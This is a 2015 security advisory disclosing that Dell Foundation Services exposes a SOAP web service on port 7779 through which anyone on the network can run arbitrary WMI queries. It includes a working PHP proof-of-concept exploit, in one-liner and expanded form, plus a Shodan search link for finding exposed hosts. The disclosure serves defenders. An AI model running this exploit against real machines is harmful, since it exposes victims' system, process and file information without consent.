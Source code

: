 ```yaml
---
layout: post
title: "Security Advisory: Dell Foundation Services Remote Information Disclosure (II)"
date: 2015-11-25
categories:
---
```


*By slipstream/RoL.*

# Overview

Dell Foundation Services (otherwise known by its internal name of "Tribbles") "provides a core set of foundational services facilitating customer serviceability, messaging and support functions."

# Issue

Dell Foundation Services starts an HTTPd that listens on port 7779. The previous service tag leak was fixed by removing the JSONP API.

However, the webservice in question is still available; it is now a SOAP service, and all methods of that webservice can be accessed, not just the ServiceTag method.

One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(string wmiQuery)` - this returns the results of a given WMI (Windows Management Instrumentation, "the infrastructure for management data and operations on Windows-based operating systems") query, enabling access of hardware information, installed software, running processes, installed services, accessible hard disks, filesystem metadata (filenames, file size, dates) and more.

[Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.

Quick PHP one-liner Proof-of-Concept:

````
`php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"`
````

This can be expanded to:

````
<?php
function wmic($ip,$query) {
	var_dump(dowmic($ip,$query));
}

function dowmic($ip,$query) {
	return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/')));
}

function callApi($ip,$method,$params = array()) {
	return (
		new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/'))
	)->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method));
}

wmic('','');
````

# Affected Versions

3.0.700.0 

# Solution

Uninstallation of Dell Foundation Services will prevent exploitation of the issue. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
